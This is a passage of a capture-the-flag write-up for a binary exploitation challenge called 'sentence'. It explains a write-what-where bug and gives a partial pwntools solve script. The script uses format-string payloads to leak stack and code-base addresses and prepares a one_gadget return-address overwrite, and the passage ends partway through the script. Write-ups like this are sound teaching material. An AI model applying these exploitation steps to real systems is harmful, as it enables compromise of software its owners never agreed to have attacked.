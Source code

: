 The next part reads two unsigned longs, the first `payload` being written to memory at `destination`. To understand how this works, I thought that looking at the assembly made it a bit easier

![assembly](vulnerable_assembly.png)

load both our values into rax and rdx, then write the value stored in rax to the address pointed to by rdx.

## My Solution
My solution was a bit convoluted. I could have done it in one go just by writing the one gadget to the return address. However I though that I may need multiple runs to store the correct values in registers, so I started by leaking the codebase and restarting main. 

In each case of triggering the vulnerability I need two leaks. First is a leak to the stack, so I can overwrite the return pointer. Second is a pointer to the section of memory I would like to write to. This is for calculating the offset I would like to return to.  For example, if I want to restart main, I need a pointer to the code base. 

### solve.py
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("sentence_patched")
libc = ELF("libc.so.6")
ld = ELF("ld-linux-x86-64.so.2")

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("challs.dantectf.it", 31531)

    return r

r = conn()

sla = lambda a,b : r.sendlineafter(f'{a}', f'{b}')
ru = lambda a : r.recvuntil(f'{a}')

def main():
    format_string_payload = "%1$p %13$p" #stack and codebase
    format_string_payload_2 = "%1$p %11$p" #stack and libc
    one_gadget = 0x50a37

    sla(":", format_string_payload)

    ru("Hi, ")
    leaks = r.recvline().split(b' ')[:2]
    leak1 = int(leaks[0][2:].decode('utf-8'),16)
    leak2 = int(leaks[1][2:].decode('utf-8'),16)
    print(hex(leak1))
    print(hex(leak2))
    overwrite_offset = leak1 + 0x2148

```